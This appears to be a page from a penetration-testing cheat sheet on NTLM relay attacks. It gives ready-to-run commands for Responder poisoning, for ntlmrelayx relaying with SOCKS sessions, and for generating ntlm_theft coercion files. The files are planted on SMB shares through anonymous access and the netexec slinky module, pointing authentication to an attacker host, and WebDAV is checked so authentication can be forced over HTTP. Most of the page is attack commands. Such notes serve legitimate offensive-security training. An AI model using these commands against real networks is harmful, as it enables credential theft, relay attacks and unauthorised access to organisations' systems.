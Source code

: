 ### <mark style="color:yellow;">NTLM Relay over All Protocols</mark>

NTLMRelayX includes support for the an "all" wildcard enabling the exploitation of every relayed connection across all services and users.

```bash
# Turn off all protocols in Responder
sed -i '4,18s/= On/= Off/g' Responder.conf

# Start poisoning
sudo python3 Responder.py -I ens192

# Run socks with NLTM relay
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -socks

# In ntlmrelay check socks for sessions
socks
```

### <mark style="color:yellow;">Attacking SMB Shares</mark>

If having write access to a smb share we can generate files an drop them in to the share. For example .url or .lnk will browse the shared folder.

#### Create theft files

```bash
python3 ntlm_theft.py -g all -s 172.16.117.30 -f '@myfile'
```

Then upload the files and use all:// scheme to try to connect to all services

```bash
# Upload theft files
smbclient.py anonymous@172.16.117.3 -no-pass

# Upload theft files with netexec
nxc smb 172.16.117.3 -u anonymous -p '' -M slinky -o SERVER=172.16.117.30 NAME=important

# Connect to services. 
ntlmrelayx.py -tf relayTargets.txt -smb2support -socks
```

### <mark style="color:yellow;">WebDav Attacks</mark>

To force authentication via HTTP instead of SMB we can use WebDAV which is an extension of HTTP that specifies the methods for carrying out fundamental file operations like copying, moving, deleting and creatin files through HTTP.

```bash
# Check if WebDav is running
nxc smb 172.16.117.0/24 -u zenpc$ -p pass123 -M webdav
```

<details><summary><strong>searchConnector-ms to start WebDav</strong></summary></details>
